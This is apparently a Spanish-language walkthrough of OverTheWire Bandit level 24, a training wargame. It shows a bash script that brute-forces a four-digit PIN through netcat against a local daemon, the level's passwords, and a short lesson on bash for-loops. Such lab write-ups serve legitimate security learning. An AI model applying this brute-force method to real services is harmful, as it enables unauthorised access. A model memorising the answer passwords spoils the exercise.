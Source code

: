 ## Objetivo:
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time.

## Datos de acceso al nivel:
- **Host: bandit.labs.overthewire.org** 
- **Port:** 2220
- **User:** bandit24
- **Password:** VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución:
Lo que nos dice el reto es que, debemos conectarnos al puerto 30002 y debemos ingresar la password de `bandit24` y un _PIN_. Si intentamos conectarnos al puerto, este nos indica que debemos ingresar la password, seguido de un espacio y luego este PIN de cuatro dígitos:

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 2309
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$
```

Por lo tanto, creamos una carpeta en el directorio `/tmp` para crear un script y hacer fuerza bruta del _PIN_:

```bash
bandit24@bandit:~$ mkdir /tmp/tmp-bandit24
bandit24@bandit:~$ cd /tmp/tmp-bandit24
bandit24@bandit:/tmp/tmp-bandit24$ ls
bandit24@bandit:/tmp/tmp-bandit24$
```

El siguiente script lo que hace es mandar la password seguido por 4 dígitos, partiendo por `0000` hasta llegar a `9999`:

```bash
bandit24@bandit:/tmp/tmp-bandit24$ nano scriptPIN.sh

bandit24@bandit:/tmp/tmp-bandit24$ cat scriptPIN.sh
#!/bin/bash

for a in {0..9}
do
        for e in {0..9}
        do
                for i in {0..9}
                do
                        for o in {0..9}
                        do
                                echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $a$e$i$o"
                        done
                done
        done
done
bandit24@bandit:/tmp/tmp-bandit24$
```

A este le damos permisos de ejecución:

```bash
bandit24@bandit:/tmp/tmp-bandit24$ chmod +x scriptPIN.sh
bandit24@bandit:/tmp/tmp-bandit24$ ls -la scriptPIN.sh
-rwxrwxr-x 1 bandit24 bandit24 181 Feb 24 00:14 scriptPIN.sh
bandit24@bandit:/tmp/tmp-bandit24$
```

Y le pasamos este script al comando `netcat`:

```bash
bandit24@bandit:/tmp/tmp-bandit24$ ./scriptPIN.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
```

Una vez mandado el _PIN_ correcto, la conexión nos muestra la contraseña del siguiente reto y cierra la conexión:

```bash
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:/tmp/tmp-bandit24$
```

## Notas adicionales:
En el lenguaje de programación Bash, también es posible utilizar ciclos . Los ciclos se utilizan cuando se necesita ejecutar un bloque de instrucciones varias veces, hasta que, o mientras que, se cumpla una condición dada.

## **For**

Los ciclos `for` permiten ejecutar una o varias instrucciones de forma iterativa. Son utilizados cuando se conoce el valor inicial y el valor final de las iteraciones, además permite indicar el tamaño del salto entre una iteración y otra.

### **Sintaxis**

Existen varias formas de utilizar el ciclo for. La que se muestra a continuación es la sintaxis heredada del lenguaje de programación C.

```bash
for (( inicializador; condición; contador ))
do
#Instrucciones
done
```

El inicializador es el valor inicial con que comenzará el ciclo. La condición es el valor final, el valor con que se detendrá el ciclo. El contador es el encargado de incrementar o decrementar, según sea el caso, el salto entre una iteración y otra.

También puede ser utilizado con listas de la siguiente forma:

```bash
for i in lista
do
#Instrucciones
done
```

Donde i toma el valor de la iteración actual en la lista dada.

Si lo que se necesita es especificar un rango de valores, puede ser combinado con el comando `seq` de la siguiente forma:

```bash
for i in $(seq rango)
do
#Instrucciones
done
```

## Referencias:
- https://www.hostinger.mx/tutoriales/bash-for-loop-guia-ejemplos